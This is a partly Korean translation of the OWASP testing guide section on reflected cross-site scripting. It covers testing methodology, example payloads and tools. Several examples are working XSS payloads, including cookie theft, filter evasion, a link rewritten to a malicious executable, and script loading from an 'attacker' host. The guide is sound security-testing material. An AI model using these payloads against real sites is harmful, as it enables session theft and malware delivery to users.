 ============================================================================================
OTG-INPVAL-001
============================================================================================

|

반사형 크로스 사이트 스크립팅 침투 테스트

|

Summary
============================================================================================

반사형 크로스 사이트 스크립팅은 공격자가 HTTP 응답 데이터 안에 브라우저 실행 코드를
삽입할 때 발생합니다.
삽입 공격은 그 자신이 어플리케이션 안에 저장되지 않을 뿐아니라 지속되지 않고, 
악의적으로 조작한 링크 또는 웹 페이지에 접근하는 사용자만 영향을 줍니다.
공격 문자열은 조작한 URI 또는 HTTP 파라미터의 일부에 포함되어, 
어플리케이션에서 부적절하게 처리되어 피해자에게 리턴됩니다.

반사형 XSS는 전체적인 XSS 공격 중 가장 빈번한 공격 형태입니다.
반사형 XSS 공격은 지속적이지 않은 XSS 공격으로 잘 알려져 있고, 공격 페이로드는
싱글 요청 및 응답을 통해 실행되고 전송됩니다.
그래서, 첫번째 순서 또는 타입 1 XSS라고도 불립니다.  

웹 어플리케이션이 해당 공격 형태에 취약할 때, 클라이언트로 요청을 통해 
전송이 확인되지 않은 입력을 돌려보낼 것입니다.

The common modus operandi of the attack includes a design step, in which the 
attacker creates and tests an offending URI, a social engineering step, in
which she convinces her victims to load this URI on their browsers, and the 
eventual execution of the offending code using the victim’s browser.

일반적으로 공격자 코드는 자바스크립트 언어로 쓰여져 있지만, 그 외 스크립팅
언어도 종종 사용됩니다.(ActionScript, VBScript)
공격자는 일반적으로 키 로거 설치, 피해자 쿠키 탈취, 클립보드 탈취 수행,
또는 페이지 컨텐츠 교체를 위해 이 취약점을 이용합니다.

XSS 취약점을 막기 가장 어려운 부분은 적절한 문자 인코딩입니다.
일부 경우, 웹 서버 또는 웹 어플리케이션은 문자의 일부 인코딩을 
필터링할 수 없습니다. 
그래서, 웹 어플리케이션은 **<script>**를 필터링할 수 있지만, 
간단한 인코딩 태그를 포함한 **%3cscript%3e**를 
필터링하지 않을 수 있습니다.

|

How to Test
============================================================================================

|

Black Box testing
-------------------------------------------------------------------------------------------

블랙 박스 테스트는 최소한 3가지 과정을 포함해야합니다.

(1) 입력 벡터 탐지.
침투 테스터는 각각의 웹 페이지에서 모든 웹 어플리케이션의 사용자 정의 변수와 
그들이 입력되는 방법을 확인해야 합니다.
이것은 HTTP 파라미터, POST 데이터, 숨겨진 form 필드 값, 그리고 미리 정의된 radio
또는 selection 값과 같은 숨겨지거나 명백하지 않은 입력을 포함합니다.
일반적으로 브라우저 내에 HTML 에디터 또는 웹 프록시는 숨겨진 변수를 보는 데 사용할 
수 있습니다.

(2) 잠재적인 취약점을 탐지하기 위해 각각의 입력 벡터 분석.
XSS 취약점을 탐지하기 위해, 침투 테스터는 각각의 입력 벡터에 특별하게 조작한 입력 
데이터를 사용할 것입니다.
그러한 입력 데이터는 일반적으로 해롭지 않지만, 취약점이 나타난 웹 브라우저로 부터
응답 데이터가 트리거됩니다.
침투 테스트 데이터는 웹 어플리케이션 퍼저, 알려진 공격 문자열 리스트 또는 수동으로
생성될 수 있습니다.

입력 데이터 예제

.. code-block:: html

    <script>alert(123)</script>

.. code-block:: html

    "><script>alert(document.cookie)</script>

더 자세한 목록은 XSS Filter Evasion Cheat Sheet을 참고

(3) 이 전 과정에서 시도된 입력값으로, 침투 테스터는 결과를 분석할 수 있습니다. 
그리고, 웹 어플리케이션의 보안에 실제 영향을 주는 취약점을 나타내는 경우를 결정합니다.
이것은 HTML 웹 페이지 결과와 침투테스트 입력 검색 테스트가 요구됩니다.
발견되면, 침투 테스터는 인코딩된 것, 대체된 것, 또는 필터링 된 것에 대해 적합하지 않은 
특수 문자를 식별합니다.
필터링 되지 않은 취약한 특수 문자 집합은 HTML의 섹션 컨텍스트에 따라 달라집니다.

모든 HTML 특수 문자가 HTML 엔티티로 교체되는 지 식별합니다.
식별할 키 HTML 엔티티

.. code-block:: html

    > (초과)
    < (미만)
    & (앰퍼센트)
    ' (싱글 쿼트)
    " (더블 쿼트)

그러나, 엔티티의 전체 리스트는 HTML 과 XML 규격에 정의되어 있습니다. 
Wikipedia에 완벽한 reference를 가지고 있습니다.

HTML 액션 또는 자바스크립트 코드의 컨텍스트에서 다른 특수 문자 설정은 
취소, 암호화, 대체, 필터링을 해야할 것입니다.

.. code-block:: html

    \n (new line)
    \r (carriage return)
    \' (싱글 쿼트)
    \" (더블 쿼트)
    \\ (백슬래쉬)
    \uXXXX (unicode 값)

|

Example 1
-------------------------------------------------------------------------------------------

예를 들어, "Welcome %username%"를 출력하는 사이트가 있다고 합시다. 그리고,
다운로드 링크가 있습니다.

침투 테스터는 모든 데이터 입력 포인트는 XSS 공격이 발생할 수 있음을 의심해야 합니다.
그것을 분석하기 위해, 침투 테스터는 사용자 변수를 실행하고 취약점을 트리거 합니다.

다음 링크로 클릭하고 상황을 확인해봅시다.

.. code-block:: html

    http://example.com/index.php?user=<script>alert(123)</script>

만약 필터링이 없다면 다음 팝업이 결과로 발생될 것입니다.

이것은 XSS 취약점이 있다는 걸 의마하고, 침투 테스터의 링크를 클릭한다면
모든 사람의 브라우저에 테스터가 선택한 코드를 실행 할 수 있다는 걸 나타냅니다.

|

Example 2
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example.com/index.php?user=<script>window.onload=
    function() {var AllLinks=document.getElementsByTagName("a");
    AllLinks[0].href="http://badexample.com/malicious.exe";}</script>



|

Example 3
-------------------------------------------------------------------------------------------

.. code-block:: html

    <input type="text" name="state" value="INPUT_FROM_USER">

.. code-block:: html

    "onfocus="alert(document.cookie)

|

Example 4
-------------------------------------------------------------------------------------------

.. code-block:: html

    "><script>alert(document.cookie)</script>

.. code-block:: html

    "%3cscript%3ealert(document.cookie)%3c/script%3e


|

Example 5
-------------------------------------------------------------------------------------------

.. code-block:: html

    <scr<script>ipt>alert(document.cookie)</script>

|

Example 6
-------------------------------------------------------------------------------------------

.. code-block:: php

    <?
        $re = "/<script[^>]+src/i";

        if (preg_match($re, $_GET['var']))
        {
            echo "Filtered";
            return;
        }
        echo "Welcome ".$_GET['var']." !";
    ?>

.. code-block:: html

    <script src="http://attacker/xss.js"></script>

.. code-block:: html

    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>

|

Example 7
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example/page.php?param=<script>[...]</script>


.. code-block:: html

    http://example/page.php?param=<script&param=>[...]</&param=script>


|

Gray Box testing
-------------------------------------------------------------------------------------------

Gray Box testing is similar to Black box testing. In gray box testing,
the pen-tester has partial knowledge of the application. In
this case, information regarding user input, input validation controls,
and how the user input is rendered back to the user might be
known by the pen-tester.

If source code is available (White Box), all variables received from
users should be analyzed. Moreover the tester should analyze any
sanitization procedures implemented to decide if these can be circumvented.

|

Tools
============================================================================================

- OWASP CAL9000

CAL9000 is a collection of web application security testing tools
that complement the feature set of current web proxies and automated
scanners. It’s hosted as a reference at 
http://yehg.net/lab/pr0js/pentest/CAL9000/

- PHP Charset Encoder(PCE)

http://h4k.in/encoding [mirror: http://yehg.net/e ]
This tool helps you encode arbitrary texts to and from 65 kinds
of charsets. Also some encoding functions featured by JavaScript
are provided.

- HackVertor

http://www.businessinfo.co.uk/labs/hackvertor/
hackvertor.php
It provides multiple dozens of flexible encoding for advanced
string manipulation attacks.

- WebScarab 

WebScarab is a framework for analysing
applications that communicate using the HTTP and HTTPS
protocols.

- XSS-Proxy

http://xss-proxy.sourceforge.net/
XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.

- ratproxy

http://code.google.com/p/ratproxy/
A semi-automated, largely passive web application security
audit tool, optimized for an accurate and sensitive detection,
and automatic annotation, of potential problems and securityrelevant
design patterns based on the observation of existing,
user-initiated traffic in complex web 2.0 environments.

- Burp Proxy

http://portswigger.net/proxy/
Burp Proxy is an interactive HTTP/S proxy server for attacking
and testing web applications.

- OWASP Zed Attack Proxy (ZAP)

OWASP_Zed_Attack_Proxy_Project
ZAP is an easy to use integrated penetration testing tool for
finding vulnerabilities in web applications. It is designed to be
used by people with a wide range of security experience and as
such is ideal for developers and functional testers who are new
to penetration testing. ZAP provides automated scanners as well
as a set of tools that allow you to find security vulnerabilities
manually.

- OWASP Xenotix XSS Exploit Framework

OWASP_Xenotix_XSS_Exploit_Framework
OWASP Xenotix XSS Exploit Framework is an advanced Cross
Site Scripting (XSS) vulnerability detection and exploitation
framework. It provides Zero False Positive scan results with
its unique Triple Browser Engine (Trident, WebKit, and Gecko)
embedded scanner. It is claimed to have the world’s 2nd largest
XSS Payloads of about 1600+ distinctive XSS Payloads for
effective XSS vulnerability detection and WAF Bypass. Xenotix
Scripting Engine allows you to create custom test cases and
addons over the Xenotix API. It is incorporated with a feature rich
Information Gathering module for target Reconnaissance. The
Exploit Framework includes offensive XSS exploitation modules
for Penetration Testing and Proof of Concept creation.

|

References
============================================================================================

OWASP Resources
--------------------------------------------------------------------------------------------

- XSS Filter Evasion Cheat Sheet

Books
--------------------------------------------------------------------------------------------

- Joel Scambray, Mike Shema, Caleb Sima - “Hacking Exposed Web
Applications”, Second Edition, McGraw-Hill, 2006 - ISBN 0-07-
226229-0

- Dafydd Stuttard, Marcus Pinto - “The Web Application’s
Handbook - Discovering and Exploiting Security Flaws”, 2008, Wiley,
ISBN 978-0-470-17077-9

- Jeremiah Grossman, Robert “RSnake” Hansen, Petko “pdp” D.
Petkov, Anton Rager, Seth Fogie - “Cross Site Scripting Attacks: XSS
Exploits and Defense”, 2007, Syngress, ISBN-10: 1-59749-154-3

Whitepapers
--------------------------------------------------------------------------------------------

- CERT - Malicious HTML Tags Embedded in Client Web Requests:
Read
- Rsnake - XSS Cheat Sheet: Read
- cgisecurity.com - The Cross Site Scripting FAQ: Read
- G.Ollmann - HTML Code Injection and Cross-site scripting: Read
- A. Calvo, D.Tiscornia - alert(‘A javascritp agent’):
Read ( To be published )
- S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the
Web browser threat: Read

|